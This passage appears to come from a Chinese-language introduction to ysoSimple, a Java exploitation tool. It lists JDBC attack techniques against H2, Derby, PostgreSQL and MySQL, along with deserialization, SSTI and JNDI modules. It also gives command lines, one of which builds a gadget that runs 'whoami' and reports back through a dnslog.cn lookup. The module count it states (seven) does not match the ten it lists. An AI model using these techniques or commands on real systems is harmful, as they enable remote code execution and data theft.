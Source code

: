 - H2 RunScript 远程加载SQL文件  
  
- H2 StaticMethod 执行Java静态语法  
  
- H2 Groovy 执行Groovy表达式  
  
- H2 JavaScript 执行JS表达式  
  
Derby：执行SQL语句漏洞利用  
- 直接加载java字节码RCE  
  
- 远程加载jar包  
  
- 落地jar包加载  
  
PostgreSQL：数据库连接漏洞利用  
- socketFactory/socketFactoryArg 单参数构造方法实例化  
  
- loggerLevel/loggerFile 日志文件写入  
  
MySQL：数据库连接漏洞利用  
- ReadFile：读文件  
  
- detectCustomCollations：触发Java反序列化，测试步骤和上面一样  
  
- ServerStatusDiffInterceptor：触发Java反序列化，测试步骤和上面一样  
  
  
  
**03**  
  
**工具使用**  
  
目前ysoSimple集成7种漏洞利用模块：  
1. Java原生反序列化：YsoAttack  
  
1. Hessian反序列化：HessianAttack  
  
1. XStram反序列化：XStramAttack  
  
1. SnakeYaml反序列化：SnakeYamlAttack  
  
1. Shiro550反序列化：YsoAttack  
  
1. JSF反序列化：YsoAttack  
  
1. JdbcAttack模块：JdbcAttack  
  
1. SSTI模板注入：SSTIAttack  
  
1. JNDI服务器：JNDIAttack  
  
1. 字节码生成模块：ThirdPartyAttack  
  
YsoSimple用-m或者-mode参数选择要使用的模块，例如：  
```
java -jar ysoSimple.jar -m YsoAttack
```  
```
java -jar ysoSimple.jar -m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:dnslog:whoami.dnslog.cn"
```  
  
**JNDIAttack模块启动**  
```
java -jar ysoSimple.jar -m JNDIAttack
```  
  